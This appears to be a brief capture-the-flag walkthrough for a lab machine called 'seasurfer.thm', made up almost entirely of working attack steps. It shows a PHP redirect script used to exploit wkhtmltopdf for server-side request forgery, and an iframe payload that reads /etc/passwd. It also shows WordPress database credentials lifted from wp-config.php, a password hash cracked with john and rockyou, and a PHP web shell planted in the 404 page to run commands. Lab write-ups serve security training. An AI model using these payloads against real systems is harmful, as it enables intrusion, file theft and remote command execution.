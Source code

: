```
Accept-Language: en,*
Host: 10.8.97.245:1234

```
`wkhtlmtopdf` is used

host this php file 
```php
<?php
$loc = "http://127.0.0.1/"; if(isset($_GET['p'])){ $loc = $_GET['p']; } header('Location: '.$loc);
?>
```
host with
```bash
php -S 0.0.0.0:80
```
payload to website:
```
<iframe height=3000 src="http://10.8.97.245/index.php?p=file:///etc/passwd">
```
it works

`/var/www/wordpress/wp-config.php`
```php
WordPress */
define( 'DB_NAME', 'wordpress' );
/** Database username */
define( 'DB_USER', 'wordpressuser' );
/** Database password */
define( 'DB_PASSWORD',
'coolDataTablesMan' );
/** Database hostname */
define( 'DB_HOST', 'localhost' );
/** Database charset to use in creating
database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The database collate type. Don't change
this if in doubt. */
define( 'DB_COLLATE', '' );
```

# Adminer
credentials give access to the page.
`kyle:$P$BuCryp52DAdCRIcLrT9vrFNb0vPcyi/`
cracking it:
```bash
echo '$P$BuCryp52DAdCRIcLrT9vrFNb0vPcyi/' > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```
`kyle:jenny4ever`
# Wordpress -> Shell
```php
<?php system($_GET['cmd']);?>
```
into 404 page
and it works
```bash
http://seasurfer.thm/asdasd?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```
